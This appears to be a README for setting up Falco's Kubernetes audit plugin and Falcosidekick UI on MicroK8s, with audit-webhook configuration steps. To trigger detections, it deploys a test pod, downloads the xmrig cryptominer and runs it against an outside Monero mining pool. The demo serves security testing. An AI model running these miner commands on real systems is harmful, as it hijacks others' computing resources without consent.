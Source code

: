 # Falco-MicroK8s
Setting up Falco's Kubernetes Audit plugin for MicroK8s

To enable the addon:
```
microk8s enable falco
```
The addon can be disabled at any time with:
```
microk8s disable falco
```
Accessing the FalcoSideKick user interface
```
kubectl port-forward svc/falco-falcosidekick-ui -n falco 2802 --insecure-skip-tls-verify
```
```
sudo usermod -a -G microk8s $USER
sudo chown -f -R $USER ~/.kube
```
You will also need to re-enter the session for the group update to take place:
```
su - $USER
```
Will probably set up the alias at the start of each sesson:
```
alias kubectl='microk8s kubectl'
```
```
kubectl apply -f https://raw.githubusercontent.com/nigel-falco/falco-talon-testing/main/dodgy-pod.yaml
```
```
kubectl exec -it dodgy-pod -- bash
```
```
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
```
```
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
```
```
./xmrig -o stratum+tcp://xmr.pool.minergate.com:45700 -u lies@lies.lies -p x -t 2
```

# Enable K8s Auditing
```
mkdir /var/snap/microk8s/common/var/lib/k8s_audit
```
```
wget https://raw.githubusercontent.com/jasonumiker-sysdig/kubernetes-security-demos/cc2ebd3e56a2eac0a9a20668dfb91b30af0f9e00/setup-cluster/audit-policy.yaml
wget https://raw.githubusercontent.com/jasonumiker-sysdig/kubernetes-security-demos/cc2ebd3e56a2eac0a9a20668dfb91b30af0f9e00/setup-cluster/webhook-config.yaml
wget https://raw.githubusercontent.com/jasonumiker-sysdig/kubernetes-security-demos/cc2ebd3e56a2eac0a9a20668dfb91b30af0f9e00/setup-cluster/falco-values.yaml
```
```
AGENT_SERVICE_CLUSTERIP=$(kubectl get service falco-k8saudit-webhook -o=jsonpath={.spec.clusterIP} -n falco) envsubst < webhook-config.yaml.in > webhook-config.yaml
```
```
cp ./webhook-config.yaml /var/snap/microk8s/common/var/lib/k8s_audit/
cp ./audit-policy.yaml /var/snap/microk8s/common/var/lib/k8s_audit/
cat /var/snap/microk8s/current/args/kube-apiserver > kube-apiserver
```
```
cat << EOF >> kube-apiserver
--audit-log-path=/var/snap/microk8s/common/var/lib/k8s_audit/k8s_audit_events.log
--audit-policy-file=/var/snap/microk8s/common/var/lib/k8s_audit/audit-policy.yaml
--audit-log-maxbackup=1
--audit-log-maxsize=10
--audit-webhook-config-file=/var/snap/microk8s/common/var/lib/k8s_audit/webhook-config.yaml
--audit-webhook-batch-max-wait=5s
EOF
```
```
mv /var/snap/microk8s/current/args/kube-apiserver /var/snap/microk8s/current/args/kube-apiserver-orig
cp ./kube-apiserver /var/snap/microk8s/current/args/
chown root:microk8s /var/snap/microk8s/current/args/kube-apiserver
```
```
microk8s stop
```
```
microk8s start
sleep 30
```
```
kubectl rollout status daemonset falco -n falco --timeout 300s
```
